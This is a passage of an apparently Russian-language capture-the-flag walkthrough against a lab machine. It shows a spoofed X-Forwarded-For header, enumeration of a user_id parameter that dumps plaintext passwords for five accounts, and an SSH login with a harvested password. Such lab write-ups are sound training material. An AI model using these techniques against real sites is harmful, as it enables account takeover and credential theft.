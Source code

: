 ```html
GET / HTTP/1.1
Host: 192.168.56.124
X-Forwarded-For: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

>Жмем "Forward" и видим сайт. В целом ничего, попытки перебора паролей оказались бесполезны. Поэтому регаемся. В юрл видно номер нашего пользователя в системе:

>http://192.168.56.124/index.php?page=dashboard&user_id=12

>Начав с еденицы, удалось собрать пароли пользователей:

```html
http://192.168.56.124/index.php?page=profile&user_id=1
Name:     Eweuh Tandingan
Username: eweuhtandingan
Password: skuyatuh

http://192.168.56.124/index.php?page=profile&user_id=2
Name:     Aing Maung
Username: aingmaung
Password: qwerty!!!

http://192.168.56.124/index.php?page=profile&user_id=3
Name:     Sunda Tea
Username: sundatea
Password: indONEsia

http://192.168.56.124/index.php?page=profile&user_id=4
Name:     Sedih Aing Mah
Username: sedihaingmah
Password: cedihhihihi

http://192.168.56.124/index.php?page=profile&user_id=5
Name:     Alice Geulis
Username: alice
Password: 4li**
```

>Перебрав пароли, получаем доступ как Alice:

```html
┌─[✗]─[root@parrot]─[~]
└──╼ #ssh alice@192.168.56.124
The authenticity of host '192.168.56.124 (192.168.56.124)' can't be established.
ECDSA key fingerprint is SHA256:lE5D8AvkJqcIwHiNuI9aSnC3ohlDrhPhjDljqSDy9sY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.124' (ECDSA) to the list of known hosts.
alice@192.168.56.124's password: 
Last login: Fri Dec 13 14:48:25 2019
alice@gfriEND:~$ id
uid=1000(alice) gid=1001(alice) groups=1001(alice)
```
